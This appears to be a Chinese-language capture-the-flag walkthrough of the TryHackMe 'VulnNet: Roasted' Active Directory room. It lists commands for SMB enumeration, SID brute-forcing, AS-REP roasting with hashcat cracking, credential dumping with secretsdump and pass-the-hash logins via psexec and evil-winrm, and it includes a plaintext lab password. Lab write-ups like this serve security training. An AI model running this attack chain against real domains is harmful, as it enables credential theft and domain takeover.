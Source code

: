 # VulnNet: Roasted

VulnNet Entertainment刚刚与新雇用的系统管理员一起在其网络上部署了一个新实例。作为一家具有安全意识的公司，他们一如既往地聘请您执行渗透测试，并查看系统管理员的表现。

---

## 端口扫描

循例nmap 扫: nmap -sS 10.10.26.181 -p 1-10000 -T5

    53/tcp   open  domain
    88/tcp   open  kerberos-sec
    135/tcp  open  msrpc
    139/tcp  open  netbios-ssn
    389/tcp  open  ldap
    445/tcp  open  microsoft-ds
    464/tcp  open  kpasswd5
    593/tcp  open  http-rpc-epmap
    636/tcp  open  ldapssl
    3268/tcp open  globalcatLDAP
    3269/tcp open  globalcatLDAPssl
    5985/tcp open  wsman
    9389/tcp open  adws

## smb枚举

枚举smb
    
    enum4linux -M -U -S 10.10.26.181

获得信息：

    Domain Name: VULNNET-RST
    Domain Sid: S-1-5-21-1589833671-435344116-4136949213

枚举smb共享文件夹：

    smbclient -L 10.10.26.181

    VulnNet-Business-Anonymous   Disk      VulnNet Business Sharing
    VulnNet-Enterprise-Anonymous   Disk      VulnNet Enterprise Sharing

使用smbclient分别进入两个文件夹，会得到六个文本文件

有四个文件披露了四个可能的用户名

## msrpc sid爆破

但我们有更好的选择，我们可以使用lookupsid.py，通过msrpc sid爆破列举出存在的用户和组：

    python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymouse@10.10.26.181 | grep SidTypeUser

清洗一下数据，提取用户名，将其保存到文件

## AS-REP roasting

    python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -usersfile ./test1.txt -dc-ip 10.10.26.181 -no-pass -request VULNNET-RST/

我们将获得 t-skid 的密码hash

如果你细心阅读我们一开始在smb共享获取的那六个文本文件，你就会发现有一个文件中披露了：

    Tony Skid 是一名核心安全经理，负责内部基础设施。
    我们确保您的数据安全和私密。在保护您的私人信息方面...
    我们把它锁得比恶魔岛更紧。
    我们与TryHackMe合作，使用128位SSL加密，并创建每日备份。
    未经您的许可，我们绝不会向第三方披露任何数据。
    放心吧，没有什么能活着离开这里。

我想的应该没错

言归正传，我们将我们获得的密码hash保存到文件，并使用hashcat尝试爆破:

    hashcat -a 0 -m 18200 ./hash /usr/share/wordlists/rockyou.txt

## 旋转-再次smb枚举

我们爆破获得了t-skid的明文密码，我们使用该账户再次进行smb枚举

    smbclient //10.10.244.32/NETLOGON/ -U VULNNET-RST/t-skid

    smb: \> get ResetPassword.vbs 

发现凭据：

    strUserNTName = "a-whitehat"
    strPassword = "**********"

## 横向移动

我们尝试再次查看smbNETLOGIN，发现这个账户登不上，那我们尝试通过psexec获得cmd会话，失败，可能是网络原因，发现总是丢包

目标开启了5985端口，再尝试通过winrm

    evil-winrm -i 10.10.244.32 -u a-whitehat -p bNdKVkjv3RR9ht

尝试了许多遍，连上了

    C:\Users\enterprise-core-vn\desktop> type user.txt

## 远程转储凭据

卡死我了，我选择放弃使用远程命令行，让secretsdump.py来帮我完成吧

    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py VULNNET-RST/a-whitehat@10.10.244.32

最后我们将获得administrator的ntlm hash，我们没有必要破解，因为我们可以进行进行pth

例如：psexec.py、evil-winrm

    python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes **********:********* Administrator@10.10.244.32

system.txt在桌面下
